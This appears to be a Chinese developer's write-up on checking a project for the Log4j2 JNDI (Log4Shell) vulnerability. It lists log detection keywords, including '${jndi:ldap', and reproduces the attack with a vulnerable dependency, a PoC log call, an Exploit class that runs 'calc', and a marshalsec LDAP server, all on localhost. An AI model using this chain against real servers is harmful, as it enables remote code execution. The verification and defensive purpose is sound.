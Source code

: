 # 项目log4j漏洞问题排查
## 1. 自检（项目是否存在log4g漏洞）

**结论：不存在该漏洞**

1. 项目并没有引用到log4g-core
2. 也没有打印会引起该漏洞的关键字或规则

![image-20211222121156841](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222121156841.png)

### 1.1 针对漏洞的自定义规则

| 规则         | 使用情况 |
| ------------ | -------- |
| tcp payload  | 未使用   |
| http msgbody | 未使用   |

### 1.2 日志排查关键字

| 关键字                                                       | 使用情况 |
| ------------------------------------------------------------ | -------- |
| Javax. naming Communicationexception                         | 未使用   |
| Javax. naming. Namingexception: problem generating object using object factory | 未使用   |
| Error looking up JNDI resource"关键字进行排查                | 未使用   |
| ${jndi: ladp或 rmi                                           | 未使用   |
| getobjectfactoryfromreferenc Idapurl Context hdil ookup等与jnd调用相关的堆栈信息。 | 未使用   |



## 2. log4j漏洞概述

该漏洞是由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特定恶意数据包，可在目标服务器上执行任意代码。

## 3. 影响范围

Apache Log4j 2.x <= 2.15.0-rc1

## 4. 复现demo

### 4.1 新建maven项目

创建一个新的maven项目，并导入Log4j的依赖包

```xml
 <!--   bug版本log4j-core-2.14.1    -->
<dependency>
            	<groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>

        <!--   已修复版本log4j-core-2.17.0    -->
<!--        <dependency>-->
<!--            <groupId>org.apache.logging.log4j</groupId>-->
<!--            <artifactId>log4j-core</artifactId>-->
<!--            <version>2.17.0</version>-->
<!--        </dependency>-->
```

### 4.2 漏洞利用

#### **4.2.1 使用POC测试**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
class LogTest {
    public static final Logger logger = LogManager.getLogger();
    public static void main(String[] args) {
        logger.error("${jndi:ldap://localhost:8888/Exploit}");
    }
}
```

#### 4.2.2 **编译一恶意类Exploit.class**

首先新建exp.java，然后编译为class文件

```java
class Exploit {
    static {
        System.err.println("Pwned");
        try {
            String cmds = "calc";
            Runtime.getRuntime().exec(cmds);
        } catch ( Exception e ) {
            e.printStackTrace();
        }
    }
}
javac exp.java
```

#### 4.2.3 **使用marshalsec-0.0.3-SNAPSHOT-all.jar本地开启一个LDAP服务**

```mipsasm
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer
"http://127.0.0.1:7777/#Exploit" 8888
```

#### 4.2.3 运行poc.java，即可访问恶意类并执行写在其中的"calc"命令

![image-20211222124406317](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222124406317.png)

### 4.3 验证测试

#### 4.3.1 bug版本log4j-core-2.14.1

打印的日志会调用jndi

![image-20211222124709509](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222124709509.png)

![image-20211222124917358](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222124917358.png)

#### 4.3.2 已修复版本log4j-core-2.17.0

已修复版本就变成单纯的打印日志了

![image-20211222124814229](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222124814229.png)

## 5. 项目验证

项目在log 中的jdni，并不会执行远程调用

![image-20211222125006483](https://gitee.com/zszdevelop/blogimage/raw/master/image-20211222125006483.png)

## 参考文章

[手把手复现了 Log4j2 漏洞，太可怕了。。](https://segmentfault.com/a/1190000041117219)

